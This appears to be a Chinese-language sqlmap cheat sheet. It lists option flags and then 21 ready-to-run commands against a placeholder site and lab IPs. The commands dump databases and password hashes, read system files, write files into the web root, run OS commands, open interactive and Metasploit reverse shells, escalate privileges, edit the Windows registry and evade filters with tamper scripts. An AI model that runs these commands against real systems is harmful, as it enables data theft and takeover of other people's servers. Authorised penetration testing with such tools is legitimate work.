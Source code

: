 ```
--sql-shell    #执行指定sql命令 
--sql-query    #执行指定的sql语句(--sql-query "SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1" ) 
--file-read    #读取指定文件 
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt) 
--file-dest    #要写入的文件绝对路径 
--os-cmd=id    #执行系统命令 
--os-shell     #系统交互shell 
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/) 
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/) 
--os-smbrelay  # 
--os-bof       # 
--reg-read     #读取win系统注册表 
--priv-esc     # 
--time-sec=    #延迟设置 默认--time-sec=5 为5秒 
-p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"  #指定user-agent注入 
--eta          #盲注 
/pentest/database/sqlmap/txt/
common-columns.txt　　字段字典　　　 
common-outputs.txt 
common-tables.txt      表字典 
keywords.txt 
oracle-default-passwords.txt 
user-agents.txt 
wordlist.txt 
```

## 2. 常用语句 

```
1./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db --users --passwords --dbs -v 0 
2./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --passwords -U root --union-use -v 2 
3./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -T users -C username -D userdb --start 2 --stop 3 -v 2 
4./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -C "user,pass"  -v 1 --exclude-sysdbs 
5./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --sql-shell -v 2 
6./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-read "c:\boot.ini" -v 2 
7./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-write /test/test.txt --file-dest /var/www/html/1.txt -v 2 
8./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-cmd "id" -v 1 
9./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-shell --union-use -v 2 
10./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 --priv-esc -v 1 
11./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 -v 1 
12./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-bof --msf-path=/opt/framework/msf3 -v 1 
13./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --reg-add --reg-key="HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1 
14./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --eta 
15./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "')" --suffix "AND ('abc'='abc"
16./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass"
17./sqlmap.py -l burp.log --scope="(www)?\.target\.(com|net|org)"
18./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3 
19./sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1 
20./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner 
21./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --cookie="PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low" --string='xx' --dbs --level=3 -p "uid"
```